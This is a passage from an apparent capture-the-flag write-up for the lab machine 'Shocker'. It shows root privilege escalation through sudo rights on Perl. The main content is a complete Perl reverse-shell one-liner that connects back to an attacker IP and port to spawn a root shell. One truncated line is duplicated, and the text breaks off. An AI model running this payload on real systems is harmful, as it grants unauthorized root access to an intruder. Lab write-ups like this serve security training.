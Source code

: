# Privilege Escalation to root
## User Shelly can run `/usr/bin/perl` as sudo 
User shelly can run `/usr/bin/perl` as sudo .
![[Pasted image 20210705103358.png]]
## Getting reverse shell as root running perl reverse shell script as root
Command used for privilege escalation to root.
```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.71";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
<TDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Got revers